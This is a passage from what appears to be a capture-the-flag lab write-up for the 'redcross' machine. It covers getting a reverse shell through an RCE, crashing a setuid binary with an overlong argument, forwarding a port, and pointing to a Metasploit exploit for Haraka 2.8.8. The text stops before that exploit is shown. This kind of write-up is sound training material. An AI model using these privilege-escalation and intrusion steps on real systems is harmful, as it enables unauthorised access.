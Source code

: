 Using this RCE you can easily transfer a static socat file and gain reverse shell this way.
You are now www-data on redcross.

```sh
www-data@redcross:/$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 00:50:56:bf:22:08 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.113/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:febf:2208/64 scope link 
       valid_lft forever preferred_lft forever
www-data@redcross:/$ whoami
www-data
www-data@redcross:/$ hostname
redcross
www-data@redcross:/$
```

So there is this `/opt/iptctl/iptctl` binary which source code you can find in publics' home when logged invia ssh earlier.
The binary has setuid byte set.

```
www-data@redcross:/opt/iptctl$ ls -la
total 24
drwxrwxr-x 2 root root  4096 Jun 10 18:43 .
drwxr-xr-x 5 root root  4096 Jun  7 18:08 ..
-rwsr-sr-x 1 root root 13152 Jun 10 18:39 iptctl
www-data@redcross:/opt/iptctl$ 
```

Interactive mode can be triggered by using it with argument `-i` but might get you nowhere. You can segfault it like so:

```sh
www-data@redcross:/opt/iptctl$ ./iptctl allow $(python -c 'print("A" * 281)')
Usage:  allow|restrict|show IP
www-data@redcross:/opt/iptctl$ ./iptctl allow $(python -c 'print("A" * 282)')
Segmentation fault
```

If you build up a reverse ssh shell and forward port 1025 back to your attackers box you will be able to netcat to it revealing this:

`220 redcross ESMTP Haraka 2.8.8 ready`

Lucky enough there is a ready made RCE exploit for this. Using it you will be able to gain meterpreter session using msf module.
Be sure to define `penelope@redcross.htb` to get it working:
